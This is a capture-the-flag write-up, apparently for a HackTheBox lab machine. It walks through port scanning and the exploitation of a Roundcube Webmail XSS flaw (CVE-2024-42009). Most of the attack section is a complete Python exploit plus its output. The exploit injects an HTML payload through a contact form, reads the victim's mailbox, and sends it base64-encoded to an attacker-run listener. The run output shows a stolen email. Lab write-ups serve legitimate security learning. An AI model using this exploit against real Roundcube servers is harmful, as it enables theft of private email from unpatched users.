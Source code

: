 ![](https://github.com/user-attachments/assets/8278069b-610a-4c6d-a7b6-101029e255af)

## 1. Recon

### 1.1. Port Scan `nmap`

Quick initial scan to find open ports:

```console
root@kali:~# nmap -sS -p- --min-rate 100000 -Pn 10.10.11.54
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 08:34 +08
Nmap scan report for 10.10.11.54
Host is up (0.013s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.53 seconds
```

Script and version scan on open ports:

```console
root@kali:~# nmap -Pn -p 22,80 -sCV 10.10.11.54
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 08:34 +08
Nmap scan report for 10.10.11.54
Host is up (0.0054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 33:41:ed:0a:a5:1a:86:d0:cc:2a:a6:2b:8d:8d:b2:ad (ECDSA)
|_  256 04:ad:7e:ba:11:0e:e0:fb:d0:80:d3:24:c2:3e:2c:c5 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.37 seconds
```

## 2. Exploring Roundcube Webmail

### 2.1. Looking around

The web app is at `http://drip.htb/`:

```console
root@kali:~# curl 10.10.11.54
<meta http-equiv="refresh" content="0; url=http://drip.htb/" />
```

_Sign In_ links to `http://mail.drip.htb/`:

![](https://github.com/user-attachments/assets/4ee1c489-f446-4668-b63f-547648e37102)

Which is Roundcube Webmail:

![](https://github.com/user-attachments/assets/56f7f86b-5c0c-4bbb-a5fd-da7e6cb9c0ab)

_Sign Up_ links to account registration page:

![](https://github.com/user-attachments/assets/f36f0c12-8848-4a6e-b2bb-c50bee487843)

Register account and sign in, version is `1.6.7`:

![](https://github.com/user-attachments/assets/4825f5d1-8351-43b9-9d7d-641949bb3c52)

Note the `drip.darkcorp.htb` domain from _Headers_:

![](https://github.com/user-attachments/assets/367fb443-b91e-457f-87c8-7b694c22eac0)

### 2.2. CVE-2024-42009

[CVE-2024-42009](https://github.com/advisories/GHSA-j43g-prf4-578j): A Cross-Site Scripting vulnerability in Roundcube through 1.5.7 and 1.6.x through 1.6.7 allows a remote attacker to steal and send emails of a victim via a crafted e-mail message that abuses a Desanitization issue in message_body() in program/actions/mail/show.php.

Intercept the _Contact Us_ request via Burp Suite:

![](https://github.com/user-attachments/assets/4da2f0de-3c74-463e-9753-96da2e6c70c3)

![](https://github.com/user-attachments/assets/acfb7fba-0df8-4e14-91bb-583814e72f60)

Change `recipient=support%40drip.htb` into `recipient=test%40drip.htb` and forward the edited request to hijack the email

An email `bcase@drip.htb` is discovered that can be used for the XSS exploit:

![](https://github.com/user-attachments/assets/82b2372e-c795-4173-8b39-b7a8024f6d0c)

Found exploit code for CVE-2024-42009:
1. Adjust `http://10.10.14.3:8000` to kali IP address to reflect the information to correct location
2. Adjust `message = 2` to change the UID of the email to be retrieve by `?_task=mail&_action=show&_uid=`

```python
import requests
from http.server import BaseHTTPRequestHandler, HTTPServer
import base64
import threading
from lxml import html

# Configuration
TARGET_URL = 'http://drip.htb/contact'
LISTEN_PORT = 8000
LISTEN_IP = '0.0.0.0'

# Payload for the POST request
start_mesg = '<body title="bgcolor=foo" name="bar style=animation-name:progress-bar-stripes onanimationstart=fetch(\'/?_task=mail&_action=show&_uid='
message = 2
end_mesg = '&_mbox=INBOX&_extwin=1\').then(r=>r.text()).then(t=>fetch(`http://10.10.14.3:8000/c=${btoa(t)}`)) foo=bar">Foo</body>'

post_data = {
    'name': 'test',
    'email': 'test@drip.htb',
    'message': f"{start_mesg}{message}{end_mesg}",
    'content': 'html',
    'recipient': 'bcase@drip.htb'
}
print(f"{start_mesg}{message}{end_mesg}")

# Headers for the POST request
headers = {
    'Host': 'drip.htb',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://drip.htb',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': 'http://drip.htb/index',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9',
    'Cookie': 'session=eyJfZnJlc2giOmZhbHNlfQ.aMTEkA.kLDBkDWeSgzVjLHOIUq6hZEF8CE',
    'Connection': 'close'
}

# Function to send the POST request
def send_post():
    response = requests.post(TARGET_URL, data=post_data, headers=headers)
    print(f"[+] POST Request Sent! Status Code: {response.status_code}")

# Custom HTTP request handler to capture and decode the incoming data
class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if '/c=' in self.path:
            encoded_data = self.path.split('/c=')[1]
            decoded_data = base64.b64decode(encoded_data).decode('latin-1')
            print(f"[+] Received data {decoded_data}")
            tree = html.fromstring(decoded_data)

            # XPath query to find the div with id 'messagebody'
            message_body = tree.xpath('//div[@id="messagebody"]')
           
            # Check if the div exists and extract the content
            if message_body:
                # Extract inner text, preserving line breaks
                message_text = message_body[0].text_content().strip()
                print("[+] Extracted Message Body Content:\n")
                print(message_text)
            else:
                print("[!] No div with id 'messagebody' found.")

        else:
            print("[!] Received request but no data found.")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')

    def log_message(self, format, *args):
        return  # Suppress default logging

# Function to start the HTTP server
def start_server():
    server_address = (LISTEN_IP, LISTEN_PORT)
    httpd = HTTPServer(server_address, RequestHandler)
    print(f"[+] Listening on port {LISTEN_PORT} for exfiltrated data...")
    httpd.serve_forever()

# Run the HTTP server in a separate thread
server_thread = threading.Thread(target=start_server)
server_thread.daemon = True
server_thread.start()

# Send the POST request
send_post()

# Keep the main thread alive to continue listening
try:
    while True:
        pass
except KeyboardInterrupt:
    print("\n[+] Stopping server.")
```


Run the exploit:

```console
root@kali:~# python3 exploit.py
<body title="bgcolor=foo" name="bar style=animation-name:progress-bar-stripes onanimationstart=fetch('/?_task=mail&_action=show&_uid=2&_mbox=INBOX&_extwin=1').then(r=>r.text()).then(t=>fetch(`http://10.10.14.3:8000/c=${btoa(t)}`)) foo=bar">Foo</body>
[+] Listening on port 8000 for exfiltrated data...
[+] POST Request Sent! Status Code: 200
[+] Received data <!DOCTYPE html>
```

Receive information:

```console
[+] Extracted Message Body Content:

Hey Bryce,

The Analytics dashboard is now live. While it's still in development and limited in functionality, it should provide a good starting point for gathering metadata on the users currently using our service.

You can access the dashboard at dev-a3f1-01.drip.htb. Please note that you'll need to reset your password before logging in.

If you encounter any issues or have feedback, let me know so I can address them promptly.

Thanks
```
